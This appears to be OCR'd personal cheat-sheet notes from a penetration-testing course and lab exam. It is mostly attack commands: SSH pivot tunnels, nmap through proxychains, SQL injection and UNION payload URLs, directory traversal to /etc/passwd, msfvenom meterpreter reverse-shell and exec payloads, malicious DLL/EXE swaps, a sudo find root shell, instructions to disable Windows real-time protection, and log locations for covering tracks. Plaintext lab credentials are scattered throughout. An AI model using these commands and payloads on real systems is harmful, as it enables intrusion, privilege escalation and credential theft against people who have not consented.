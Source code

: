 KEPE-006-M
jTlU99dknad4D95

Tunnels
exit
ssh -MS /tmp/gray student@10.50.46.234
ssh -S /tmp/gray gray -O forward -D9050
ssh -S /tmp/gray 10 -O forward -L 1700:192.168.28.27:22

for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
proxychains nmap -v -sT -Pn -T4 -sV 192.168.28.129,112,113,114 
-p-[all ports] -p[22,23]


SQL Injection
admin' or 1='1
SELECT carid, name, (SELECT SUM(cost) FROM Tires WHERE name = "goodyear") FROM car WHERE name = "ford";
<URL>/uniondemo.php?Selection=2 OR 1=1
<URL>/uniondemo.php?Selection=2 Union SELECT 1,2,3  <!-- Validate NUMBER of columns required -->
<URL>/uniondemo.php?Selection=2 Union SELECT 1,name,3 FROM Tires <!-- Test pulling VALID data -->
<URL>/uniondemo.php?Selection=2 Union SELECT 1,name,3 FROM car <!-- Test pulling data from ALTERNATE table -->

ssh www-data@0.0.0.0 -p 1460 -L 1400:192.168.150.253:3201 -NT



Windows Buffer Overflow
Break program with tcpcon.py

Open Immunity debuger CPU window and exe as administrator
Attach file in cpu window
Generate Buffer overflow pattern https://wiremask.eu/tools/buffer-overflow-pattern-generator/
Copy EIP to find where the error happens
add DEADCODE to buff in script
mona modules -o
imona jmp -r esp -m "<file>"
find jmp esp instruction memory address
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.46.234 lport=4444 -b
msfconsole -q
use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp
show options, set lhost, set lport
shut off real time protection in windows-> security -> vires and threat -> mange settings -> real-time protection





Privilege Escalation,P Persistence and Covering your Tracks
sudo -l (list user permissions)
/var/log/ auth.log/secure (login/authen) lastlog(successful login time) btmp(bad login) sulog(SU command) utmp(W command) wtmp(permanent record on user)

find /var/log -type f -mmin -10 2> /dev/null

msfvenom -p linux/x86/exec CMD="sudo cat /.secret/.verysecret.pdb" -b '\x00' -f python




Windows Exploitation
Services
check path
file explorer

msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\Users\UNAME\Desktop\whoami.txt' -f exe > 7z.exe
scp
task scheduler
find task run by system try and try and edit/create files within the directory
view hidden files

msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\Users\UNAME\Desktio\dll.dll' -f dll > name of dll its calling for

ssh -S /tmp/gray pivot -O forward -L 1700:192.168.28.105:2222
ssh comrade@0.0.0.0 -p 1700 -L 40000:192.168.28.27:22
ssh zeus@0.0.0.0 -p 40000 -L 1900:192.168.28.9:3389
ghjcnbnenrf
xfreerdp /u:comrade /v:0.0.0.0:1900 /p:StudentMidwayPassword /size:1920x1000 +clipboard




Pre-Test

5 boxes
ignore .190 and 10.10
Lin-Ops -> 10.50.46.125
2 Root/Admin 

1)10.50.46.125 port 22,80
nmap -v -sT -Pn -T4 -sV 10.50.46.125
nmap -v -sT -Pn -T4 -sV --script=http-enum.nse 10.50.46.125 -p 80

cmd injection ;whoami
SQL injection admin' or 1='1
Directory Traversal ../../../../../etc/passwd, /etc/hosts, 

user2 [1] => RntyrfVfNER78 [pass] - EaglesIsARE78
 user3 [1] => Obo4GURRnccyrf [pass] -  Bob4THEEapples
Lee_Roth [1] => anotherpassword4THEages

cat /etc/hosts
ip n
arp -a

ssh -MS /tmp/gray user2@10.50.46.125

sudo -l
find perm command
crontab

for i in {1..254} ;do (ping -c 1 192.168.28.$i | grep "bytes from" &) ;done
192.168.28.172,181

ssh -s /tmp/gray/gray -O forward -D9050

proxychains nmap -v -sT -Pn -T4 -sV 192.168.28.172,181

192.168.28.172 22
192.168.28.181 WebApp 22,80

ssh -S /tmp/gray gray -O forward -L 1200:192.168.28.181:80
nmap -v -sT -Pn -T4 -sV --script=http-enum.nse 192.168.28.181 -p 80

http://0.0.0.0:1200/pick.php?product=7%20OR%201=1
http://0.0.0.0:1200/pick.php?product=7%20UNION%20select%201,2,3;
http://0.0.0.0:1200/pick.php?product=7%20UNION%20select%201,3,2;
                   1             2           3
UNION SELECT table_schema, column_name, table_name from infomation_schema.columns;

http://0.0.0.0:1200/pick.php?product=7 20UNION 20SELECT 20name,user_id,username 20FROM 20siteusers.users
<table_schema>,<column_name>,<table_name> from siteusers.<table>

Aaron ncnffjbeqlCn$$jbeq - apasswordyPa$$word
Lroth anotherpassword4THEages

ssh -S /tmp/gray gray -O forward -L 1331:192.168.172:22
ssh -S /tmp/gray gray -O forward -L 1332:192.168.181:22

Brute force with credentials on both known targets

ssh -MS /tmp/aaron Aaron@0.0.0.0 -p 1331
bash
sudo -l
/usr/bin/find https://gtfobins.github.io/

escalate privs 
sudo find . -exec /bin/sh \; -quit
ssh -S /tmp/gray gray -0 cancel -D9050
ssh -S /tmp/aaron Aaron -O forward -D9050

192.168.28.179:22,139,445, 3389(xfreerdp,rdp), 9999 
proxychains nc 192.168.29.179 9999

ssh -S /tmp /aaron aaron -O forward -L 1440:192.168.28.29:3389
ssh -S /tmp /aaron aaron -O forward -L 1441:192.168.28.29:9999
anotherpassword4THEages
xfreerdp /v:192.168.28.179:1440 /u:Lroth /p:anotherpassword4THEages /size:1920x1000 +clipboard
vim secureserverBuffo.py change port to 1440

